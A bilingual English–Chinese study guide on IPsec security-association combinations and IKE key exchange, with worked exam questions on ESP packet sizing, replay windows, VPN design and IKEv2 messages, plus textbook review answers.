Compliant hosts and gateways must support four combinations. In the figure, the lower part is the physical network and the upper part the logical SAs. Each SA can be AH or ESP. Host-to-host SAs may use either mode. All others must use tunnel mode.合规的主机和网关必须支持四种组合。图中下部是物理网络，上部是逻辑 SA。每个 SA 可以是 AH 或 ESP。主机到主机的 SA 可以使用任一模式，其他所有 SA 必须使用隧道模式。

| Case情形 | IPsec runs onIPsec 运行于 | SAsSA |
|---|---|---|
| 1 | the two end hosts only仅两台端主机 | AH transport; ESP transport; ESP then AH in transport mode (ESP SA inside AH SA); or any of these inside an AH or ESP tunnelAH 传输；ESP 传输；传输模式下先 ESP 后 AH（ESP SA 位于 AH SA 之内）；或以上任一种位于 AH 或 ESP 隧道之内 |
| 2 | the two gateways only (no host)仅两个网关（无主机） | one tunnel SA (AH, ESP, or ESP with authentication); a simple VPN; no nesting needed一个隧道 SA（AH、ESP，或带认证的 ESP）；简单的 VPN；无需嵌套 |
| 3 | gateways and hosts网关与主机 | case 2 plus the end-to-end SAs of case 1; an ESP gateway tunnel adds limited traffic confidentiality情形 2 加上情形 1 的端到端 SA；ESP 网关隧道提供有限的流量保密性 |
| 4 | remote host and the organization's firewall远程主机与组织的防火墙 | a tunnel SA from the remote host to the firewall, plus one or two SAs from the remote host to the local host behind it从远程主机到防火墙的一个隧道 SA，外加从远程主机到其后本地主机的一个或两个 SA |
Practice练习
Q1. (Explain) When two transport SAs are bundled to give both ESP and AH, the architecture allows only ESP before AH. Why is this preferred to authentication before encryption, and how do you get authentication first if it is needed?Q1.（解释）当两个传输 SA 绑定在一起以同时提供 ESP 与 AH 时，体系结构只允许 ESP 位于 AH 之前。为什么这一做法优于先认证后加密？若确实需要先认证，应如何实现？
Answer
With ESP inside and AH outside, the AH ICV covers the ESP packet and the original IP header, including both addresses, and the receiver verifies AH first. Forged or replayed packets are then dropped without any decryption, which limits denial-of-service attacks. With AH inside ESP, every packet would have to be decrypted before it could be authenticated. If authentication before encryption is wanted (authentication data protected by encryption and storable with the plaintext), use a transport–tunnel bundle: an AH transport SA inside an ESP tunnel SA.ESP 位于内层、AH 位于外层时，AH 的 ICV 覆盖 ESP 数据包及原始 IP 首部（包括两个地址），接收方先验证 AH。伪造或重放的数据包随即被丢弃，无需进行任何解密，从而限制了拒绝服务攻击。若 AH 位于 ESP 之内，则每个数据包都必须先解密，才能进行认证。若需要先认证后加密（认证数据受加密保护，并可与明文一同存储），则应使用传输–隧道束：在 ESP 隧道 SA 之内嵌套一个 AH 传输 SA。
Q2. (Select) Choose an SA design for each need: (a) two hosts need confidentiality and authentication that also covers the IP addresses; (b) two LANs are linked through gateways and no host runs IPsec; (c) a travelling laptop must reach a server behind the company firewall.Q2.（选择）为每种需求选择一种 SA 设计：（a）两台主机需要既提供机密性、又覆盖 IP 地址的认证；（b）两个局域网通过网关相连，且没有主机运行 IPsec；（c）出差的笔记本电脑必须访问公司防火墙之后的服务器。
Answer
(a) Transport adjacency: an ESP transport SA (no authentication) inside an AH transport SA. (b) Case 2: a single tunnel SA between the gateways, ESP with authentication. (c) Case 4: a tunnel SA between the laptop and the firewall, optionally plus an SA between the laptop and the server.（a）传输邻接：ESP 传输 SA（无认证）位于 AH 传输 SA 之内。（b）情形 2：网关之间的单个隧道 SA，使用带认证的 ESP。（c）情形 4：笔记本电脑与防火墙之间的隧道 SA，可选地再加上笔记本电脑与服务器之间的一个 SA。
Internet Key Exchange (IKE) ★★因特网密钥交换（IKE）
Goal. Explain why IPsec needs IKE, name the weaknesses of plain Diffie–Hellman with the IKE remedies, explain the cookie exchange and list the four IKEv2 initial messages.目标。解释 IPsec 为什么需要 IKE，说明普通 Diffie–Hellman 的弱点及 IKE 的补救措施，解释 cookie 交换，并列出 IKEv2 的四条初始消息。
IPsec needs four keys between two applications: transmit and receive keys for both integrity and confidentiality. Key management is manual or automated. Manual means that an administrator configures every system, which is practical for small, static networks. Automated means on-demand creation of keys for SAs, which suits large, changing systems. The automated protocol is Internet Key Exchange (IKE)（因特网密钥交换）.IPsec 在两个应用之间需要四个密钥：用于完整性和机密性的发送密钥与接收密钥。密钥管理可以是手工的或自动的。手工意味着管理员逐一配置每个系统，适用于小型、静态的网络。自动意味着按需为 SA 创建密钥，适用于大型、多变的系统。自动协议即因特网密钥交换（IKE）。
IKEv1 used ISAKMP with Oakley. Oakley is the Diffie–Hellman-based key-determination protocol with added security. It is generic and dictates no formats. ISAKMP is the framework that defines message formats and the negotiation of security attributes. IKEv2 drops these names and differs in detail, but the functions are the same.IKEv1 使用 ISAKMP 与 Oakley。Oakley 是基于 Diffie–Hellman 并增加了安全性的密钥确定协议。它是通用的，不规定格式。ISAKMP 是定义消息格式以及安全属性协商的框架。IKEv2 不再使用这些名称，细节也有所不同，但功能相同。
Step 1: key determination and its remedies第 1 步：密钥确定及其补救措施
In words: IKE uses Diffie–Hellman to make a shared key, and adds protections against the attacks that plain Diffie–Hellman allows.用文字表述：IKE 用 Diffie–Hellman 生成共享密钥，并增加防护，抵御普通 Diffie–Hellman 允许的攻击。
Diffie–Hellman (Section 10.1) creates keys only when needed and needs no prior infrastructure. Plain Diffie–Hellman has weaknesses. IKE counters them with five features: cookies, negotiation of a group (which fixes the prime, the primitive root and the algorithm), nonces, exchange of DH public values, and authentication of the exchange.Diffie–Hellman（第 10.1 节）只在需要时生成密钥，且无需事先的基础设施。普通 Diffie–Hellman 有若干弱点。IKE 用五项特性加以应对：cookie、组的协商（确定素数、本原根和算法）、nonce、DH 公开值的交换，以及对交换的认证。
| Weakness of plain Diffie–Hellman普通 Diffie–Hellman 的弱点 | IKE remedyIKE 的应对措施 |
|---|---|
| No identities, so a man-in-the-middle attack（中间人攻击）works: the attacker shares a key with each side没有身份标识，因此中间人攻击可以得逞：攻击者与双方各共享一个密钥 | authenticate the DH exchange对 DH 交换进行认证 |
| Costly, so a clogging attack（阻塞攻击）works: forged requests force useless modular exponentiation开销大，因此阻塞攻击可以得逞：伪造的请求迫使接收方进行无用的模幂运算 | cookies（防阻塞 cookie） |
| Old messages can be replayed旧消息可被重放 | nonces（随机数）: pseudorandom numbers in the responses一次性随机数（nonce）：响应中的伪随机数 |
Cookie exchange, step by step.cookie 交换，逐步说明。
- Each side sends a pseudorandom cookie（防阻塞 cookie）in its first message.每一方在其第一条消息中发送一个伪随机的防阻塞 cookie。
- The other side acknowledges it and repeats the acknowledgment in the first DH message.另一方确认该 cookie，并在第一条 DH 消息中重复该确认。
- A forger at a spoofed address never sees the reply. He can force only acknowledgments, not DH computations.伪造者使用伪造地址时收不到回复。他只能迫使对方发出确认，而无法迫使对方做 DH 计算。
A cookie must meet three requirements:cookie 必须满足三项要求：
- It depends on the specific parties (addresses and ports).它依赖于具体的通信双方（地址和端口）。
- Only the issuer can produce it, using local secret information, so cookies need not be stored.只有签发方能够生成它，使用本地秘密信息，因此 cookie 无需保存。
- It is fast to generate and verify.生成和校验都很快。
The recommended cookie is a fast hash of the IP addresses, the UDP ports and a local secret.推荐的 cookie 是对 IP 地址、UDP 端口和本地秘密做的快速哈希。
Authentication of the exchange uses digital signatures over a hash of IDs and nonces, public-key encryption of IDs and nonces, or a symmetric key obtained out of band.交换过程的认证可以采用：对 ID 与一次性随机数的散列进行数字签名，对 ID 与一次性随机数进行公钥加密，或使用通过带外方式获得的对称密钥。
Step 2: the IKEv2 exchanges第 2 步：IKEv2 的交换
In words: IKEv2 = four messages build a secure channel (the IKE SA) and the first IPsec SA.用文字表述：IKEv2 = 四条消息建立一个安全通道（IKE SA）和第一个 IPsec SA。
IKEv2 exchanges messages in request–response pairs over UDP. The first two pairs are the initial exchanges. Messages 1 and 2 (IKE_SA_INIT) agree on algorithms and exchange DH values and nonces. They create the IKE SA, a secure channel that encrypts and authenticates all later IKE messages. Messages 3 and 4 (IKE_AUTH) authenticate the peers and set up the first IPsec SA, which goes into the SAD. CREATE_CHILD_SA creates further SAs. The informational exchange carries errors, notifications and management information.IKEv2 在 UDP 上以请求–响应对的形式交换消息。前两对是初始交换。消息 1 和 2（IKE_SA_INIT）协商算法，交换 DH 值和 nonce，并创建 IKE SA，即一条加密并认证此后所有 IKE 消息的安全通道。消息 3 和 4（IKE_AUTH）认证双方，并建立第一个 IPsec SA，放入 SAD。CREATE_CHILD_SA 创建更多的 SA。信息交换用于传送错误、通知和管理信息。
(a) Initial exchanges
1 Initiator -> Responder : HDR, SAi1, KEi, Ni
2 Responder -> Initiator : HDR, SAr1, KEr, Nr, [CERTREQ]
3 Initiator -> Responder : HDR, SK{IDi, [CERT,] [CERTREQ,] [IDr,] AUTH, SAi2, TSi, TSr}
4 Responder -> Initiator : HDR, SK{IDr, [CERT,] AUTH, SAr2, TSi, TSr}
(b) CREATE_CHILD_SA exchange
HDR, SK{[N], SA, Ni, [KEi], [TSi, TSr]} <-> HDR, SK{SA, Nr, [KEr], [TSi, TSr]}
(c) Informational exchange
HDR, SK{[N,] [D,] [CP,] ...} <-> HDR, SK{[N,] [D,] [CP,] ...}
HDR IKE header; SAx1 offered or chosen algorithms and DH group; KEx DH public value; Nx nonce;
CERTREQ certificate request; IDx identity; CERT certificate; AUTH authentication;
SAx2 algorithms and parameters for the IPsec SA; TSx traffic selectors; N notify; D delete;
CP configuration; SK{...} encrypted and MAC-protected with the IKE SA keys; [ ] optional.
An IKE message is an IKE header followed by payloads. The header holds the Initiator and Responder SPIs (64 bits each, identifying the IKE SA), Next Payload, version, Exchange Type, Flags, a 32-bit Message ID and Length. The Message ID controls retransmission and matches requests to responses.IKE 消息由 IKE 首部加若干载荷组成。首部包括发起方和响应方 SPI（各 64 位，用于标识 IKE SA）、下一载荷、版本、交换类型、标志、32 位消息 ID 和长度。消息 ID 控制重传，并把请求与响应配对。
Practice练习
Q1. (Explain) Describe the clogging attack on a Diffie–Hellman responder and show how the cookie exchange defeats it.Q1.（解释）描述针对 Diffie–Hellman 响应方的阻塞攻击，并说明 Cookie 交换如何防御该攻击。
Answer
The opponent forges the source address of a legitimate user and sends many DH public values. The victim answers each with a modular exponentiation to compute a key, which wastes its processor. With cookies the victim first returns a cookie derived from the claimed addresses, ports and its local secret, and continues only when the peer repeats it in the first DH message. A forger at a spoofed address never receives the cookie, so the victim has spent only a cheap hash per request. It stores nothing, because it can recompute the cookie from its secret to verify the returned value.攻击者伪造某合法用户的源地址，并发送大量 DH 公开值。受害方对每个值都做一次模幂运算以计算密钥，从而浪费了其处理器资源。使用 Cookie 后，受害方首先返回一个由所声称的地址、端口及其本地秘密导出的 Cookie，并且只有当对方在第一条 DH 消息中重复该 Cookie 时才继续处理。使用伪造地址的攻击者永远收不到 Cookie，因此受害方每个请求只付出了一次廉价的散列计算。受害方无需保存任何状态，因为它可以根据其秘密重新计算 Cookie，以核验返回的值。
Q2. (Trace) List the four messages of the IKEv2 initial exchanges with their contents, say which are protected, and say what the peers hold afterwards.Q2.（手工演算）列出 IKEv2 初始交换的四条消息及其内容，说明哪些消息受保护，并说明交换之后双方各持有什么。
Answer
1 (initiator): HDR, SAi1 (offered algorithms and DH group), KEi (DH public value), Ni (nonce). 2 (responder): HDR, SAr1 (chosen algorithms), KEr, Nr, optionally CERTREQ. Both sides can now compute the DH key and derive the IKE SA keys. 3: HDR, SK{IDi, optional CERT and CERTREQ, optional IDr, AUTH, SAi2, TSi, TSr}. 4: HDR, SK{IDr, optional CERT, AUTH, SAr2, TSi, TSr}. Messages 1 and 2 are in the clear; 3 and 4 are encrypted and authenticated (SK) under the IKE SA. Afterwards the peers hold the IKE SA and the first IPsec SA, entered in the SAD.1（发起方）：HDR、SAi1（所提议的算法与 DH 组）、KEi（DH 公开值）、Ni（一次性随机数）。2（响应方）：HDR、SAr1（所选算法）、KEr、Nr，可选 CERTREQ。此时双方都可以计算 DH 密钥，并导出 IKE SA 的密钥。3：HDR、SK{IDi、可选的 CERT 与 CERTREQ、可选的 IDr、AUTH、SAi2、TSi、TSr}。4：HDR、SK{IDr、可选的 CERT、AUTH、SAr2、TSi、TSr}。消息 1 和 2 为明文；消息 3 和 4 在 IKE SA 之下被加密并认证（SK）。此后，双方持有 IKE SA 以及第一个 IPsec SA，后者已写入 SAD。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Wildcard mode通配符模式 | A SAD entry whose mode is tunnel, transport or wildcard. Wildcard means that either mode may be usedSAD 表项，其模式为隧道、传输或通配符。通配符表示两种模式均可使用 |
| Sequence counter overflow序号计数器溢出 | A flag in the SAD. When the counter would wrap, the event is audited and sending on this SA stopsSAD 中的一个标志。计数器将要回绕时，该事件被审计，且停止在此 SA 上发送 |
| Path MTU路径 MTU | The largest packet size on the path. The SAD keeps the observed value and its ageing variables, so that the sender can avoid fragmenting路径上的最大数据包大小。SAD 保存观测到的值及其老化变量，使发送方能够避免分片 |
| SA lifetimeSA 生存期 | A time or byte count after which the SA is replaced (new SPI) or ended一个时间或字节数，到达后 SA 被替换（使用新 SPI）或终止 |
| TFC paddingTFC 填充 | In tunnel mode, extra padding after the payload that hides the real packet length隧道模式下，载荷之后的额外填充，用于隐藏真实的数据包长度 |
| Traffic selectors (TS)流量选择符（TS） | Fields in IKE messages 3 and 4 that tell which traffic the new IPsec SA protectsIKE 消息 3 和 4 中的字段，说明新 IPsec SA 保护哪些流量 |
| CREATE_CHILD_SA | Creates further IPsec SAs. A fresh KE payload gives perfect forward secrecy for that child SA创建更多的 IPsec SA。新的 KE 载荷为该子 SA 提供完美前向保密 |
| IKEv1 phasesIKEv1 阶段 | Phase 1 builds an ISAKMP SA (main mode 6 messages, aggressive mode 3). Phase 2 (quick mode, 3 messages) builds IPsec SAs阶段 1 建立 ISAKMP SA（主模式 6 条消息，野蛮模式 3 条）。阶段 2（快速模式，3 条消息）建立 IPsec SA |
| NAT traversalNAT 穿越 | ESP is wrapped in UDP on port 4500, so that port-based NAT devices can handle itESP 被封装在 UDP 的 4500 端口中，以便基于端口的 NAT 设备能够处理它 |
| Manual keying手工密钥 | An administrator configures every system. Practical only for small, static networks管理员配置每个系统。仅适用于小型、静态的网络 |
Exam-style questions考试题型练习
Q1. (SA, SAD and SPD, 10 marks) (a) Define a security association and give the parameters that identify it. (3) (b) Distinguish the SPD from the SAD; list the SPD selectors and the three policy actions. (3) (c) Describe how IPsec handles an outbound packet whose SPD entry is PROTECT but for which no SA exists, and an inbound plain packet that matches a PROTECT entry. (4)Q1.（SA、SAD 与 SPD，10 分）（a）定义安全关联，并给出标识它的参数。（3 分）（b）区分 SPD 与 SAD；列出 SPD 的选择符以及三种策略动作。（3 分）（c）描述 IPsec 如何处理 SPD 项为 PROTECT 但不存在 SA 的出站数据包，以及与某个 PROTECT 项匹配的入站明文数据包。（4 分）
Answer
(a) An SA is a one-way logical connection from a sender to a receiver that gives AH or ESP security services to the traffic on it; two-way communication needs two SAs. It is identified by the SPI (a 32-bit number chosen by the receiver, with local significance, carried in the AH/ESP header), the IP destination address and the security protocol identifier (AH or ESP).（a）SA 是从发送方到接收方的单向逻辑连接，为其上的流量提供 AH 或 ESP 安全服务；双向通信需要两个 SA。它由以下三者标识：SPI（由接收方选定、仅具有本地意义、携带在 AH/ESP 首部中的 32 位数字）、IP 目的地址，以及安全协议标识符（AH 或 ESP）。
(b) The SPD holds policy: each entry has selectors (remote and local IP address, next-layer protocol, local and remote ports, user name) and an action, DISCARD, BYPASS or PROTECT; entries are searched in order and the first match applies. The SAD holds one entry per live SA with its parameters (SPI, sequence counter and overflow flag, anti-replay window, algorithms, keys, lifetime, mode, path MTU). The SPD decides whether traffic is protected; a PROTECT entry points to the SA that decides how.（b）SPD 保存策略：每一项都有选择符（远端和本地 IP 地址、下一层协议、本地和远端端口、用户名）以及一个动作（DISCARD、BYPASS 或 PROTECT）；条目按顺序检索，首个匹配项生效。SAD 为每个现存 SA 保存一项，其中包含其参数（SPI、序号计数器及溢出标志、抗重放窗口、算法、密钥、生存期、模式、路径 MTU）。SPD 决定流量是否受保护；PROTECT 项指向决定如何保护的 SA。
(c) Outbound: IPsec finds the PROTECT entry and searches the SAD. There is no SA, so it invokes IKE to negotiate the SA and its keys and enters it in the SAD. The SAD entry fixes the processing (ESP or AH, transport or tunnel mode) and the packet is forwarded. Inbound: the packet has no ESP/AH header, so IPsec searches the SPD. The first match is PROTECT, so unprotected traffic is not acceptable and the packet is discarded; only a BYPASS match lets a plain packet through.（c）出站：IPsec 找到 PROTECT 项并检索 SAD。由于没有 SA，它调用 IKE 协商该 SA 及其密钥，并将其写入 SAD。SAD 项决定处理方式（ESP 或 AH，传输模式或隧道模式），随后转发数据包。入站：该数据包没有 ESP/AH 首部，因此 IPsec 检索 SPD。首个匹配项为 PROTECT，因此未受保护的流量不被接受，该数据包被丢弃；只有 BYPASS 匹配才允许明文数据包通过。
Q2. (ESP calculation, 12 marks) Host H1 sends a 1,400-byte TCP segment to H2 in ESP transport mode with AES-CBC (16-byte IV and blocks) and HMAC-SHA-1-96 (12-byte ICV); the IPv4 header has 20 bytes. (a) Draw the packet and mark the encrypted and authenticated parts. (3) (b) Compute the padding length and the packet size; does it fit a 1,500-byte MTU? (3) (c) Why is the ICV computed after encryption, and why are the SPI and sequence number not encrypted? (3) (d) H2's window has \(W=64\) and \(N=1000\). Say what happens to the valid packets 1001, 940, 937 and a second copy of 1001, in this order, and give the final window. (3)Q2.（ESP 计算，12 分）主机 H1 以 ESP 传输模式向 H2 发送一个 1,400 字节的 TCP 段，使用 AES-CBC（16 字节 IV 和分组）以及 HMAC-SHA-1-96（12 字节 ICV）；IPv4 首部为 20 字节。（a）画出该数据包，并标出被加密和被认证的部分。（3 分）（b）计算填充长度和数据包大小；它能否装入 1,500 字节的 MTU？（3 分）（c）为什么 ICV 在加密之后计算，而 SPI 和序号为什么不加密？（3 分）（d）H2 的窗口为 \(W=64\) 与 \(N=1000\)。依次说明有效数据包 1001、940、937 以及 1001 的第二个副本各自会发生什么，并给出最终的窗口。（3 分）
Answer
(a) IP hdr | ESP hdr | TCP | Data | ESP trlr | ESP auth. Encrypted: TCP segment and ESP trailer (padding, pad length, next header). Authenticated: ESP header through ESP trailer. The IP header is neither encrypted nor authenticated.（a）IP hdr | ESP hdr | TCP | Data | ESP trlr | ESP auth。被加密的部分：TCP 段和 ESP 尾部（填充、Pad Length、Next Header）。被认证的部分：从 ESP 首部到 ESP 尾部。IP 首部既不被加密，也不被认证。
(b) \(L=1400\), \(P=(-1402)\bmod16=6\), so the encrypted part is \(1400+6+2=1408\) bytes. ESP length \(=8+16+1408+12=1444\) bytes; with the IP header the packet is 1,464 bytes, which fits the 1,500-byte MTU (overhead 64 bytes).（b）\(L=1400\)，\(P=(-1402)\bmod16=6\)，因此加密部分为 \(1400+6+2=1408\) 字节。ESP 长度为 \(=8+16+1408+12=1444\) 字节；加上 IP 首部后，数据包为 1,464 字节，符合 1,500 字节的 MTU（开销为 64 字节）。
(c) With the ICV computed over the ciphertext, the receiver can discard forged or replayed packets before decrypting, which limits denial-of-service attacks, and can decrypt and verify in parallel. The ICV is not encrypted, so it must be a keyed MAC. The SPI selects the SA (keys, algorithms) and the sequence number drives the replay check, so both are needed before decryption; they are authenticated by the ICV.（c）由于 ICV 基于密文计算，接收方可以在解密之前丢弃伪造或重放的数据包，从而限制拒绝服务攻击，并且能够并行地解密与验证。ICV 不加密，因此它必须是带密钥的消息认证码（MAC）。安全参数索引（SPI）用于选出安全关联（SA，包含密钥和算法）；序号用于重放检查。二者在解密之前都是必需的，并且均受 ICV 认证保护。
(d) The window is \([937,1000]\). 1001 is right of it: after a valid ICV, \(N=1001\) and the window is \([938,1001]\). 940 is inside and new: accepted and marked. 937 is now below 938: discarded. The second 1001 is already marked: discarded as a replay. Final window \([938,1001]\).（d）窗口为 \([937,1000]\)。1001 位于窗口右侧：在 ICV 有效后，\(N=1001\)，窗口则为 \([938,1001]\)。940 位于窗口之内且未曾收到：接受并标记。937 现在低于 938：丢弃。第二个 1001 已被标记：作为重放丢弃。最终窗口为 \([938,1001]\)。
思路：先算 \(P=(-(L+2))\bmod B\)，再加 8、IV、ICV；窗口先验证、后右移，左端按 \(N-W+1\) 计算。
Q3. (Modes and VPN design, 10 marks) A company has two offices, each behind a firewall, linked over the Internet, and travelling staff with laptops. (a) Choose protocol, mode and SA endpoints for the site-to-site link and for the laptops. (4) (b) Draw the IPv4 packet on the Internet for the site-to-site link and mark the protected parts. (3) (c) What does an eavesdropper learn from this packet, and what would she learn if the two end servers used transport-mode ESP end to end instead? (3)Q3.（模式与 VPN 设计，10 分）某公司有两个办公室，各自位于防火墙之后并通过因特网相连，另有携带笔记本电脑出差的员工。（a）为站点到站点的链路以及笔记本电脑选择协议、模式和 SA 端点。（4 分）（b）画出站点到站点链路在因特网上传输的 IPv4 数据包，并标出受保护的部分。（3 分）（c）窃听者能从该数据包中获知什么？如果两台端点服务器改为端到端使用传输模式的 ESP，她又能获知什么？（3 分）
Answer
(a) Site to site: ESP in tunnel mode, with authentication, between the two firewalls (case 2). Internal hosts need no IPsec, only the gateways hold keys, and there is one SA per direction. Laptops: ESP in tunnel mode between each laptop and the company firewall (case 4); the laptop must run IPsec. Keys come from IKE.（a）站点到站点：在两台防火墙之间使用带认证的隧道模式 ESP（情形 2）。内部主机无需 IPsec，只有网关持有密钥，并且每个方向各有一个 SA。笔记本电脑：在每台笔记本电脑与公司防火墙之间使用隧道模式 ESP（情形 4）；笔记本电脑必须运行 IPsec。密钥由 IKE 提供。
(b) New IP hdr | ESP hdr | Orig IP hdr | TCP | Data | ESP trlr | ESP auth. The new header carries the firewalls' addresses. Encrypted: original IP header through ESP trailer. Authenticated: ESP header through ESP trailer; the new IP header is not authenticated.（b）New IP hdr | ESP hdr | Orig IP hdr | TCP | Data | ESP trlr | ESP auth。新的 IP 首部携带两台防火墙的地址。加密部分：从原始 IP 首部到 ESP 尾部。认证部分：从 ESP 首部到 ESP 尾部；新的 IP 首部不参与认证。
(c) With the tunnel she sees only the two firewalls' addresses, the SPI, sequence numbers, packet sizes and timing; the inner addresses, ports, protocol and data are hidden, so traffic analysis only reveals the volume between the sites. With transport-mode ESP the real server addresses are visible, so she learns who talks to whom (the TCP ports and data stay encrypted). Only tunnel mode hides the ultimate destination.（c）在隧道模式下，她只能看到两台防火墙的地址、SPI、序号、数据包大小以及时序；内层地址、端口、协议和数据都被隐藏，因此流量分析只能显示两个站点之间的流量大小。若改用传输模式 ESP，真实的服务器地址可见，她便能得知谁与谁通信（TCP 端口和数据仍被加密）。只有隧道模式能隐藏最终目的地。
Q4. (Combining SAs, 10 marks) (a) Define an SA bundle, transport adjacency and iterated tunneling. (3) (b) Two hosts need confidentiality and authentication. Compare ESP with its authentication option, ESP inside AH in transport mode, and AH transport inside an ESP tunnel. (4) (c) Why does the architecture allow only ESP before AH when two transport SAs are bundled? (3)Q4.（SA 组合，10 分）（a）定义 SA 束、传输邻接和迭代隧道。（3 分）（b）两台主机需要机密性与认证。比较带认证选项的 ESP、传输模式下 ESP 位于 AH 之内，以及 AH 传输模式位于 ESP 隧道之内。（4 分）（c）当两个传输 SA 捆绑时，为什么体系结构只允许 ESP 先于 AH 应用？（3 分）
Answer
(a) An SA bundle is a sequence of SAs through which traffic is processed to give a set of services; its SAs may end at the same or at different endpoints. Transport adjacency applies more than one protocol (AH and ESP) to the same packet without tunneling; only one level is useful. Iterated tunneling applies several protocol layers through IP tunnels; nesting can be deep because each tunnel may start and end at a different site.（a）SA 束是一个 SA 序列，业务流依次经其处理以提供一组服务；其中的 SA 可以终止于相同或不同的端点。传输邻接是在不使用隧道的情况下，对同一数据包应用多种协议（AH 和 ESP）；其中只有一层是有用的。迭代隧道是通过 IP 隧道应用多层协议；由于每条隧道可以在不同站点开始和结束，嵌套层数可以很深。
(b) ESP with authentication: one SA, the ICV covers the ESP header and ciphertext (authentication after encryption); in transport mode the IP header is not protected. ESP inside AH (transport adjacency): the AH ICV also covers the original IP header including the addresses, and the receiver can verify before decrypting; the cost is two SAs. AH transport inside an ESP tunnel: authentication before encryption, so the authentication data are protected by encryption and can be stored with the plaintext; the cost is two SAs and an extra outer header.（b）带认证的 ESP：一个 SA，ICV 覆盖 ESP 首部和密文（先加密后认证）；在传输模式下，IP 首部不受保护。ESP 位于 AH 之内（传输邻接）：AH 的 ICV 还覆盖包括地址在内的原始 IP 首部，接收方可以在解密前完成验证；代价是两个 SA。AH 传输模式位于 ESP 隧道之内：先认证后加密，因此认证数据受加密保护，并可与明文一同存储；代价是两个 SA 以及一个额外的外层首部。
(c) With ESP inside and AH outside, the receiver verifies AH first and rejects forged or replayed packets without decrypting them, and AH covers the addresses. AH inside ESP would force decryption before authentication. Authentication first is still possible with a transport–tunnel bundle.（c）当 ESP 位于内层、AH 位于外层时，接收方先验证 AH，无需解密即可拒绝伪造或重放的数据包，并且 AH 覆盖地址字段。若 AH 位于 ESP 之内，则必须先解密才能认证。在传输–隧道捆绑中，仍然可以先认证。
Q5. (IKE, 10 marks) (a) Name three weaknesses of plain Diffie–Hellman and the IKE feature that counters each. (3) (b) Explain the cookie exchange and state the three cookie requirements. (4) (c) List the four messages of the IKEv2 initial exchanges and say what each achieves. (3)Q5.（IKE，10 分）（a）列出普通 Diffie–Hellman 的三个弱点，并说明 IKE 中分别能够应对每个弱点的特性。（3 分）（b）解释 cookie 交换，并说明 cookie 的三项要求。（4 分）（c）列出 IKEv2 初始交换的四条消息，并说明每条消息的作用。（3 分）
Answer
(a) No identities, so a man-in-the-middle attack works: IKE authenticates the DH exchange (signatures, public-key or symmetric-key encryption). High computing cost, so a clogging attack works: cookies. No protection against replay: nonces. (Fixed parameters are handled by negotiating a group.)（a）没有身份标识，因此中间人攻击可以得逞：IKE 对 DH 交换进行认证（采用签名、公钥或对称密钥加密）。计算开销高，因此堵塞攻击可以得逞：使用 cookie 应对。无法抵御重放：使用一次性随机数（nonce）应对。（固定参数通过协商群组来处理。）
(b) Each side sends a pseudorandom cookie in its first message, and the other side acknowledges it and repeats the acknowledgment in the first DH message. A forger at a spoofed address gets no reply and cannot continue, so the victim spends no modular exponentiation on it. The cookie must depend on the specific parties (addresses and ports); only the issuer can generate acceptable cookies, using local secret information, so it need not store them; and generation and verification must be fast. A fast hash of addresses, ports and a local secret satisfies this.（b）每一方在其第一条消息中发送一个伪随机 cookie，另一方对其进行确认，并在第一条 DH 消息中重复该确认。伪造者若使用欺骗地址，将得不到回复，无法继续，因此受害方不会为其耗费任何模幂运算。cookie 必须依赖于具体的通信双方（地址和端口）；只有签发方能够利用本地秘密信息生成可接受的 cookie，因此无需存储 cookie；并且生成与验证都必须快速。对地址、端口和本地秘密进行快速哈希即可满足这些要求。
(c) 1: the initiator offers algorithms and a DH group and sends its DH value and nonce. 2: the responder chooses algorithms and returns its DH value and nonce; both derive the IKE SA keys. 3: the initiator sends its identity, AUTH, the IPsec SA proposal and traffic selectors, encrypted under the IKE SA. 4: the responder replies with its identity, AUTH and the chosen parameters. The peers now share the IKE SA and the first IPsec SA.（c）1：发起方提出算法和 DH 群组，并发送其 DH 值与一次性随机数。2：响应方选择算法，并返回其 DH 值与一次性随机数；双方由此导出 IKE SA 密钥。3：发起方发送其身份标识、AUTH、IPsec SA 提议和流量选择器，并使用 IKE SA 加密。4：响应方回复其身份标识、AUTH 以及所选参数。至此，双方共享 IKE SA 和第一个 IPsec SA。
Textbook exercises课后习题
Textbook exercises with answers: 13 questions教材习题及答案，共 13 题，点击展开
E1. (Review Question 20.1, Stallings) List and briefly describe some benefits of IPsec.E1.（复习题 20.1，Stallings）列出并简要描述 IPsec 的一些好处。
Answer
- Strong perimeter security. When IPsec runs in a firewall or router, all traffic crossing the perimeter is protected, while traffic inside the organisation does not pay the processing cost.强大的边界安全。当 IPsec 运行在防火墙或路由器中时，穿越边界的所有流量都受到保护，而组织内部的流量不承担处理开销。
- Hard to bypass. If the firewall or router is the only way in from outside, no traffic can avoid IPsec.难以绕过。如果防火墙或路由器是外部进入的唯一通道，则任何流量都无法绕开 IPsec。
- Below the transport layer, so transparent to applications. No change is needed in application software or on user systems.位于传输层之下，因此对应用透明。应用软件和用户系统无需任何改动。
- Transparent to end users. There is no need to train users or to issue and revoke keys per user.对终端用户透明。无需培训用户，也无需为每个用户颁发和撤销密钥。
- Security for individuals. IPsec can protect single users, such as remote workers, and a private network for sensitive traffic.为个人提供安全。IPsec 可以保护单个用户，例如远程工作者，也可以为敏感流量提供专用网络。
- Secure routing. Routing protocols (for example OSPF) can be run over IPsec between routers.安全路由。路由协议（例如 OSPF）可以在路由器之间通过 IPsec 运行。
Typical uses are branch-office VPNs over the Internet, secure remote access, extranet and intranet links with partners, and extra protection for e-commerce.典型用途包括通过因特网连接的分支机构 VPN、安全远程接入、与合作伙伴之间的外联网和内联网连接，以及为电子商务提供额外保护。
思路：在 IP 层加密认证，所有应用透明受益，装在边界设备上全网受保护。
E2. (Review Question 20.2, Stallings) List and briefly define different categories of IPsec documents.E2.（复习题 20.2，Stallings）列出并简要定义 IPsec 文档的不同类别。
Answer
- Architecture: general concepts, requirements, definitions and mechanisms of IPsec (RFC 4301).架构：IPsec 的一般概念、需求、定义和机制（RFC 4301）。
- Authentication Header (AH): an extension header giving message authentication (RFC 4302); deprecated, because ESP also provides authentication.认证首部（AH）：提供消息认证的扩展首部（RFC 4302）；已弃用，因为 ESP 也提供认证。
- Encapsulating Security Payload (ESP): encapsulating header and trailer giving encryption or combined encryption and authentication (RFC 4303).封装安全载荷（ESP）：提供加密或加密加认证的封装首部和尾部（RFC 4303）。
- Internet Key Exchange (IKE): key management schemes for IPsec (main specification RFC 7296, IKEv2).因特网密钥交换（IKE）：IPsec 的密钥管理方案（主规范为 RFC 7296，即 IKEv2）。
